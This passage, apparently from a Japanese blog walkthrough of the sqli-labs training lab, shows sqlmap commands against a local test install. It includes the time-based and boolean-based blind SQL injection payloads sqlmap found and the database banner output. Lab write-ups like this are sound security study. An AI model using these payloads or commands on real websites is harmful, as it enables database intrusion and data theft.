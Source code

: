```
    Payload: id=1' AND SLEEP(5) AND 'KeMK'='KeMK
---

（中略）

web server operating system: Linux CentOS 6.8
web application technology: PHP 5.4.36, Apache 2.2.15
back-end DBMS: MySQL >= 5.0.0
banner:    '5.1.73-log'
```
</div>

　続けて、下記４点も突破することができた。  

- Less-6 (GET - Double Ingection - Double Quotes - String)
- Less-7 (GET - Dump into outfile - String)
- Less-8 (GET - Blind - Boolian Based - Single Quotes)
- Less-9 (GET - Blind - Time based. - Single Quotes)

### Less-10 (GET - Blind - Time based - double quotes)

#### level 1 ⇒ 失敗

<div class="md-code" style="width:100%">
```
$ python2.6 sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-10/?id=1" --banner --dbms MySQL

（中略）

[09:06:48] [WARNING] GET parameter 'id' does not seem to be injectable
```

デフォルトでは「\--level」オプションの値は"1"になっていますので、今度は「\--level 2」オプションを付与してやってみます。

#### level 2 ⇒ 成功
```
$ python2.6 sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-10/?id=1" --banner --dbms MySQL --level 2

---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1" AND 1115=1115 AND "FYxx"="FYxx

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=1" AND SLEEP(5) AND "Kufp"="Kufp
---
```
</div>

### Less-11 (POST - Error Based - Single quotes - String)
